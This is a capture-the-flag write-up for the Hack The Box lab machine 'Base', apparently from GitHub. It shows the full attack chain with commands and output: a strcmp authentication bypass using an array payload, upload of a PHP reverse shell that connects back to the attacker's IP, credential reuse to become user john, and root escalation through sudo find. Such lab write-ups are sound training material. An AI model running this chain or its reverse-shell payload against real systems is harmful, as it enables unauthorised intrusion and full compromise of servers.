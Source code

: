 ## ------------>> Base <<----------------

![Image LOGO](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/base.png)

// We start with nmap scan

    $ nmap -sC -sV -A -Pn 10.10.10.48 -p-
-----    
    
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 21:35 EDT
    Stats: 0:01:30 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 7.28% done; ETC: 21:55 (0:18:53 remaining)
    Nmap scan report for 10.10.10.48
    Host is up (0.37s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
    |   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
    |_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigatin to http://10.10.10.48/ we got some website that have a login page


![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/1.png)


// Due to miscunfigiration of the develepo we could access the directory from http://10.10.10.48/login/  

// There we can see file login.pgp.swp


![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/2.png)


// In the file we can see block of code


    $ cat login.php.sw
-----

    </html></body><script src="assets/js/main.js"></script><script src="assets/js/util.js"></script><script src="assets/js/breakpoints.min.js"></script><script src="assets/js/browser.min.js"></script><script src="assets/js/jquery.poptrox.min.js"></script><script src="assets/js/jquery.min.js"></script><!-- Scripts --></div>    </div>        </div>            </form>                </ul>                    </li>                        <button class="button" type="submit" value="Submit">Login</button>                    <li>                <ul>                </ul>                    <li><input type="password" name="password" id="password"></li>                    <li><input type="text" name="username" id="username"></li>                <ul>            <form id="login-form" method="POST" action="" onsubmit="">        <div id="menu">        </div>            <h1><a href="index.php">Base</a></h1>        <div id="logo">    <div id="header" class="container"><div id="header-wrapper"><!-- Main --><!-- Wrapper --><body></head>    <link href="default_ie6.css" rel="stylesheet" type="text/css"/><![endif]-->    <!--[if IE 6]>    <link href="fonts.css" rel="stylesheet" type="text/css" media="all"/>    <link href="default.css" rel="stylesheet" type="text/css" media="all"/>    <link href="http://fonts.googleapis.com/css?family=Source+Sans+Pro:200,300,400,600,700,900" rel="stylesheet"/>    <meta name="description" content=""/>    <meta name="keywords" content=""/>    <title>Base Login</title>    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/><head><html xmlns="http://www.w3.org/1999/xhtml"><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">?>}    }        print("<script>alert('Wrong Username or Password')</script>");    } else {        }            print("<script>alert('Wrong Username or Password')</script>");        } else {            header("Location: upload.php");            $_SESSION['user_id'] = 1;        if (strcmp($password, $_POST['password']) == 0) {    if (strcmp($username , $_POST['username']) == 0) {    require('config.php');if (!empty($_POST['username']) && !empty($_P


// it seems that its the authentication mehod for the login


    if (strcmp($password, $_POST['password']) == 0) 
    if (strcmp($username , $_POST['username']) == 0)


// Developer uses strcmp to check username and password, whitch its insecure and can be easilly bypass

// due to the fact that if strcmp is given an empty array to compare againts the stored password, it retuens null.

// in PHP the == operator only checks the value of a viriable for equality and the value of null is equal to 0.

// the correct way to write this its using === which checks both the value and type.

// lets open burp and catch the login packet


![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/3.png)


// Now lets send another login but this time we will edit the request in BurpSuite proxy

// edit to last line and send

    username[]=test&password[]=test

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/4.png)


// We got redirect to http://10.10.10.48/upload.php , where we can upload files


![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/5.png)


// when upload file its send us succcess but where the file?... lets run gobuster

    $ gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirb/big.txt -q -n -e
-----    
    
    http://10.10.10.48/.htaccess            [Size: 276]
    http://10.10.10.48/.htpasswd            [Size: 276]
    http://10.10.10.48/_uploaded            [Size: 314] [--> http://10.10.10.48/_uploaded/]


// lets test if and upload some file and call him

    $ touch 1 > test.txt

// Upload test.txt and navigate to http://10.10.10.48/_uploaded/test.txt , it works!


![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/6.png)


// lets upload php reverse shell (u can either cp or download from ![here](https://www.revshells.com/))

    $ cp /usr/share/laudanum/php/php-reverse-shell.php php_rshell.php
// editing the file with our ip and port

    ...
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.10.16.14';  // CHANGE THIS
    $port = 1444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ...

// open a listiner with nc

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
 
 // and navigate to 10.10.10.48/_uploaded/php_rshell.php
 
    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.14] from (UNKNOWN) [10.10.10.48] 40934
    Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
     06:15:16 up 13:43,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


// lets promote shell using python

    python3 -c "import pty;pty.spawn('/bin/bash')"


// Searching in the /var/www/html/login/ directory, found file config.php

    www-data@base:/var/www/html/login$ cat config.php
    cat config.php
    <?php
    $username = "admin";
    $password = "thisisagoodpassword";
    ...

// we found user john in etc/passwd

    www-data@base:/etc$ cat passwd
    ......................................................
    john:x:1000:1000:John:/home/john:/bin/bash
    ................................................

// Try connect johb user with password: hisisagoodpassword

    www-data@base:/$ su john
    su john
    password: thisisagoodpassword

    john@base:/$ id
    uid=1000(john) gid=1000(john) groups=1000(john)
    
// It Worked! 

// We got user flag!

    john@base:~$ cat user.txt
    cat user.txt
    f54846c258f3b4612f78a819573d158e


## ----Privilliges Escalation----


// running sudo -l for checking which files we can run with root permission we got 'find'


    john@base:~$ sudo -l
    sudo -l
    [sudo] password for john: thisisagoodpassword

    Matching Defaults entries for john on base:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on base:
        (root : root) /usr/bin/find


// lets abuse 'find' command for root privilleges 


    john@base:~$ sudo find . -exec /bin/sh \; -quit
    sudo find . -exec /bin/sh \; -quit
    
    # whoami
    whoami
    root


// Lets promote root shell with python

    # python3 -c "import pty;pty.spawn('/bin/bash')"
    python3 -c "import pty;pty.spawn('/bin/bash')"
    root@base:/home# 
-----

// We got root flag !

    root@base:/root# cat root.txt
    cat root.txt
    51709519ea18.................

